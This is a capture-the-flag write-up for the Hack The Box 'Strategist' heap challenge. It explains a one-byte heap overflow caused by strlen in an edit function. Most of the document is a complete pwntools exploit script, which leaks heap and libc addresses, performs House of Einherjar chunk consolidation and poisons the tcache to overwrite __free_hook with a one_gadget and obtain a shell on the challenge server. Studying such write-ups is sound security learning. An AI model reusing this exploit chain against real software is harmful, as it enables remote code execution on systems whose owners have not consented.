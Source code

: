 
was a classic heap challenge from hackthebox Cyber Apocalypse 2025


![vulnstrlen](https://github.com/4rsp/writeups/blob/main/Cyber-Apocalypse-2025/Strategist/vulnfunc.png)

vuln is one byte overfloww in edit_plan function because...

       The  strlen() function calculates the length of the string pointed to by
       s, excluding the terminating null byte ('\0').

..it will count the newline x)

so if you create a chunk and fill it and use edit_plan you can one byte overflow to the next chunk's metadata

and maybe set the prev_inuse bit to false

.....sounds familiar?


```python3
#!/usr/bin/env python3

from pwn import *
import time
'''
p = gdb.debug("./strategist_patched", gdbscript="""
    c
    """)
'''
#p = process("./strategist_patched")


p = remote("94.237.60.18", 33440)

def m(size, data):
    time.sleep(0.3)
    p.sendline(b"1")
    time.sleep(0.3)
    p.sendline(size.encode('utf-8'))
    time.sleep(0.5)
    p.sendline(data)
    
def f(idx):
    time.sleep(0.3)
    p.sendline(b"4")
    time.sleep(0.3)
    p.sendline(idx.encode('utf-8'))

def r(idx):
    time.sleep(0.3)
    p.sendline(b"2")
    time.sleep(0.3)
    p.sendline(idx.encode('utf-8'))
    p.recvuntil("Plan [{}]: \n".format(idx).encode('utf-8'))
    return p.recvline().strip()

def e(idx, data):
    time.sleep(0.3)
    p.sendline(b"3")
    time.sleep(0.3)
    p.sendline(idx.encode('utf-8'))
    p.sendafter(b"> ", data)

print("leaking the address of chunk0...")
# leak the address of chunk0
m("20", b"")
m("20", b"")
f("0")
f("1")
m("20", b"") # idx 0
m("20", b"") # idx 1

# offset = 70 # offset on local
offset = 60 # offset on remote
leak = int(str(hex(int.from_bytes(r("0"), 'little'))) + str(offset), 16)
print(hex(leak))

print(f"chunk0: {hex(leak)}")
fake_chunk = leak + 0x40 
print(f"fake chunk at {hex(fake_chunk)}")

### HOUSE OF EINHERJAR
# create a fake chunk 
m("56", p64(0x00) + p64(0x60) + p64(fake_chunk) + p64(fake_chunk)) # idx 2

# create a chunk for later use to overwrite the next chunk's prev_inuse bit
# need to fill it so strlen will read until null byte, 39 x A and a newline
m("40", b"A"*39) # idx 3

time.sleep(0.1)

# create a big chunk and overwrite its lsb byte 
m("248", b"bbbb") # idx 4
e("3", b"A"*32 + p64(0x60) + b'\x00') 

print("filling tcache...")
# fill tcache
for i in range(7):
    time.sleep(0.2)
    m("248", b"AAAA")

for i in range(7):
    time.sleep(0.2)
    f(f"{i+5}")

# now its going to consolidate with our fake chunk
f("4")

# now we can call malloc and it will begin in our fake chunk
# also some stuff to not fuck up the chunks

m("344", b"a"*32 + b"a"*8 + p64(0x31) + b"a"*20)

# padding before tcache hijacking
m("40", b"freeme") # idx 4
f("5")
f("3")

# can't use edit to overwrite it until the next pointer
# so just free it and later malloc again with the payload
f("4")

print("leaking libc...")
# get an allocation on unsortedbin
for i in range(8):
    time.sleep(0.3)
    m("528", b"AAAA")
m("20", b"XXX") 
for i in range(8):
    time.sleep(0.3)
    f(f"{i+3}")

# let it slice from unsortedbin to get a libc leak
m("512", b"") # idx 3

leak = int(str(hex(int.from_bytes(r("3"), 'little'))) + str(10), 16)
print(f"main arena: {hex(leak)}")
libc_base = leak - 0x3ebe10 
print(f"libc base {hex(libc_base)}")

binsh = libc_base + 0x1b3e1a
system = libc_base + 0x4f550
malloc_hook = libc_base + 0x3ebc30 
free_hook = libc_base + 0x3ed8e8

# one_gadgets
one1 = libc_base + 0x4f3ce
one2 = libc_base + 0x4f3d5
one3 = libc_base + 0x4f432
one4 = libc_base + 0x10a41c

print(f"free_hook {hex(free_hook)}")
print(f"malloc_hook {hex(malloc_hook)}")
print(f"binsh {hex(binsh)}")
print(f"system {hex(system)}")

print("performing tcache poisoning...")
# malloc again with the payload
m("344", b"b"*32 + b"a"*8 + p64(0x31) + p64(free_hook))
m("40", b"")
m("40", p64(one3))

# trigger the hook and enjoy your shell :p
f("3")

p.clean()

p.interactive()
```

![hacktheboxflag](https://github.com/4rsp/writeups/blob/main/Cyber-Apocalypse-2025/Strategist/flag.png)

**_4rsp is still exploiting the heap...._**

